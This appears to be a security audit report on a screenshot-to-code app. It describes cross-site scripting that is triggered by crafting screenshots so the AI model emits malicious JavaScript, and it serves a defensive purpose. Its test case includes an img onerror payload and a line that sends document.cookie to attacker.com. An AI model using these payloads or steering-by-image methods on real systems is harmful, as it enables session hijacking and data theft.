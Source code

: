 ### Vulnerability List

* Vulnerability Name: Cross-Site Scripting (XSS) via AI-Generated Code

* Description:
    1. An attacker uploads a specially crafted screenshot to the application.
    2. The backend processes this screenshot using an AI model to generate HTML, CSS, and JavaScript code.
    3. The malicious screenshot is designed to induce the AI model to include malicious JavaScript code within the generated output. For example, the screenshot could depict UI elements with embedded JavaScript event handlers or text content that, when interpreted as code, executes JavaScript.
    4. The backend sends the AI-generated code, including the malicious JavaScript, to the frontend.
    5. The frontend receives this code and renders it in the user's browser, typically within an iframe or a similar mechanism to display the generated output.
    6. Because the generated code contains malicious JavaScript and is rendered directly without sanitization, the JavaScript code executes in the context of the user's browser session.
    7. This allows the attacker to perform actions such as stealing cookies, session tokens, or other sensitive information; redirecting the user to malicious websites; or performing actions on behalf of the user.

* Impact:
    - Account Takeover: Attacker can steal session cookies or tokens, leading to account hijacking.
    - Data Breach: Access to sensitive user data within the application.
    - Malicious Actions: Attacker can perform actions on behalf of the user, such as modifying data, initiating transactions, or spreading malware.
    - Website Defacement: Injecting code to alter the visual appearance of the application for other users.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    - Based on the provided files, there is no evidence of implemented sanitization or Content Security Policy (CSP) to mitigate XSS vulnerabilities in the AI-generated code. The backend code (`codegen/utils.py`) focuses on extracting HTML content but does not include any sanitization steps. The LLM interaction code (`llm.py` which is used by `generate_code.py`) also directly streams and returns the generated code without modification. The `evals.py` route also reads HTML files and serves them without sanitization, although this route's exposure and purpose in a real attack scenario is less direct than the main code generation flow.

* Missing Mitigations:
    - Input Sanitization: The backend should sanitize the AI-generated code before sending it to the frontend. This involves parsing the generated HTML, CSS, and JavaScript and removing or neutralizing any potentially malicious code, especially JavaScript. Libraries like DOMPurify (for JavaScript) or similar server-side HTML sanitizers should be used.
    - Content Security Policy (CSP): Implement a strict CSP header to control the resources the browser is allowed to load and prevent the execution of inline JavaScript. This should be configured on the server to restrict script sources and other potentially dangerous behaviors.
    - Output Encoding: Ensure that when the generated code is rendered on the frontend, it is properly encoded to prevent interpretation as executable code. However, for HTML rendering, sanitization is more critical than output encoding in preventing XSS.
    - Regular Security Audits and Penetration Testing: Conduct regular security assessments, including penetration testing specifically targeting XSS vulnerabilities in the AI-generated code functionality.

* Preconditions:
    - The attacker needs to be able to upload a screenshot (or video, which is processed into screenshots as seen in `video/utils.py`) to the application.
    - The application must use an AI model to generate code from the screenshot.
    - The frontend must render the AI-generated code in a user's browser.
    - There must be no sanitization of the AI-generated code before rendering in the frontend.

* Source Code Analysis:
    - `backend\codegen\utils.py`:
        ```python
        import re

        def extract_html_content(text: str):
            # Use regex to find content within <html> tags and include the tags themselves
            match = re.search(r"(<html.*?>.*?</html>)", text, re.DOTALL)
            if match:
                return match.group(1)
            else:
                # Otherwise, we just send the previous HTML over
                print(
                    "[HTML Extraction] No <html> tags found in the generated content: " + text
                )
                return text
        ```
        - The `extract_html_content` function in `codegen/utils.py` is used in `generate_code.py` to process the output from the LLM. It uses a regular expression to extract HTML content from the text generated by the AI model.
        - **Vulnerability Point:** This function does not perform any sanitization of the extracted HTML. It simply extracts the content and returns it. If the AI model generates malicious JavaScript within the HTML, this function will pass it through without modification.

    - `backend\llm.py`:
        - This file (used by `generate_code.py`) contains functions (`stream_openai_response`, `stream_claude_response`, `stream_claude_response_native`, `stream_gemini_response`) that interact with different LLMs (OpenAI, Claude, Gemini).
        - These functions are responsible for sending prompts to the AI models and streaming back the generated responses.
        - **Vulnerability Point:** These functions handle the raw output from the LLMs. They do not include any code that would sanitize or inspect the generated text for malicious content before returning it to the application. The callback mechanism in `stream_openai_response` and `stream_claude_response` is for streaming the output, not for sanitization.

    - `backend\routes\generate_code.py`:
        - This file sets up a WebSocket endpoint `/generate-code` using FastAPI. It handles the code generation process.
        - It calls `extract_html_content` to process the LLM's response before sending it to the frontend.
        - **Vulnerability Point:** The generated code, after being processed by `extract_html_content` (which does not sanitize), is sent directly to the frontend via WebSocket without any sanitization. This confirms the XSS vulnerability path.

    - `backend\main.py` and other backend files (e.g., `evals.py`, `screenshot.py`, `video/utils.py`, `home.py`, `ws/constants.py`):
        - Reviewing these files, there is no indication of any sanitization logic being implemented in the backend before sending the generated code to the frontend.  Files like `evals.py` further highlight the lack of sanitization as they process and serve HTML files directly.

    - **Frontend Code (Not provided in this batch, but assumed based on project description):**
        - It is assumed that the frontend (React application) receives the HTML code from the backend API and renders it within a component, possibly using `dangerouslySetInnerHTML` in React or similar methods for other frameworks.
        - **Vulnerability Point:** If the frontend renders the received HTML directly without sanitization, it will execute any JavaScript code embedded within it, leading to XSS.

    - **Visualization:**

    ```
    [Attacker Uploads Malicious Screenshot] --> [Backend API Endpoint (/generate-code via WebSocket)] --> [AI Model (LLM)] --> [Generates HTML with Malicious JS] --> [Backend Calls extract_html_content (NO SANITIZATION)] --> [Backend Returns Malicious HTML] --> [Frontend Receives Malicious HTML] --> [Frontend Renders HTML (Vulnerable Point: No Sanitization)] --> [Malicious JS Executes in User Browser] --> [XSS Vulnerability Triggered]
    ```

* Security Test Case:
    1. **Prepare a Malicious Screenshot:** Create a screenshot that, when processed by the AI, is likely to generate HTML code containing malicious JavaScript. For example, the screenshot could subtly include text that, when interpreted as HTML, forms a JavaScript injection. A simple example could be a text input field label that looks like "Enter name <img src=x onerror=alert('XSS')>". When the AI transcribes this and generates HTML, it might include the `<img>` tag directly.
    2. **Upload the Screenshot:** Access the application through a web browser and use the screenshot upload functionality to upload the malicious screenshot created in step 1.
    3. **Trigger Code Generation:** Initiate the process of generating code from the uploaded screenshot. This typically involves clicking a "Generate Code" button or similar action in the application's frontend.
    4. **Inspect the Rendered Output:** Once the code generation is complete, examine the rendered output in the frontend. Look for signs of JavaScript execution. In our example, a successful XSS would result in an alert box popping up in the browser with the text "XSS".
    5. **Verify Cookie Stealing (Advanced):** For a more advanced test, modify the malicious JavaScript in the screenshot to attempt to steal cookies or session storage and send them to an attacker-controlled server. For example, use `<img src=x onerror="fetch('https://attacker.com/collect?cookie=' + document.cookie)">`. Use browser developer tools or network monitoring tools to check if a request is sent to `attacker.com` with the user's cookies after rendering the generated code.
    6. **Expected Result:** If the application is vulnerable, the JavaScript code injected via the malicious screenshot will execute in the browser when the generated code is rendered. You should observe the alert box (or cookie exfiltration in the advanced test), confirming the XSS vulnerability. If no alert box appears and no cookie exfiltration occurs, the application might have some form of mitigation, or the screenshot might not have been crafted effectively to trigger the vulnerability with the current AI model and prompts. Repeat with different screenshot variations if the initial test fails.

